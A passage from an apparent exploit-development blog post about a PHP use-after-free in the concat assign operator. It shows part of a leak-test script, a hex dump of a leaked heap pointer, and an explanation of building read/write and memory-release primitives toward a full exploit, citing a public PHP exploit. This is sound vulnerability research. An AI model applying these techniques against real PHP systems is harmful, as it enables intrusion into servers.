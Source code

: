 ```php
    return str_shuffle(str_repeat($canary, $size));
}


print leak_test();

?>
```

When we print the `$buf` variable we can see memory leaked (the pointer in the hex dump is a clear indicator of it -also this pointer is a good leak of the heap-):

```sh
➜  concat-exploit php blog01.php | xxd
00000000: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000010: 6019 40b8 8f7f 0000 0601 0000 0000 0000  `.@.............
00000020: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000030: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000040: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000050: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000060: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000070: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000080: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000090: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000000a0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000000b0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000000c0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000000d0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000000e0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000000f0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
````

Keep in mind that PHP believes this `$buf` is a string so we can access to read/modify bytes in memory by just `$buff[offset]`. This means we have a relative write/read primitive that we need to weaponize.

# [The Primitives - Crash](https://www.youtube.com/watch?v=1y7NGqfZteg)

Once we have identified the vulnerability and how to trigger it we need to find a way to get arbitrary read and write primitives. To build our exploit we are going to follow a similar schema as the exploit that [Mm0r1](https://github.com/mm0r1/exploits/blob/master/php7-backtrace-bypass/exploit.php) created for the BackTrace bug (the exploit is explained in depth in the article linked at the beggining of this post, so go and read it!).


If you remember this fragment from the quoted thread:

	The problem is that result gets released[1] if it is identical to op1_orig (which is always the case for the concat assign operator)

We can take advantage of this to get the ability to release memory at our will. As we saw with the `0x123` crash example, we can forge a fake value that is going to be passed to the PHP internal functions in charge to release memory. Let's build a De Bruijn pattern using `ragg2` and use it:
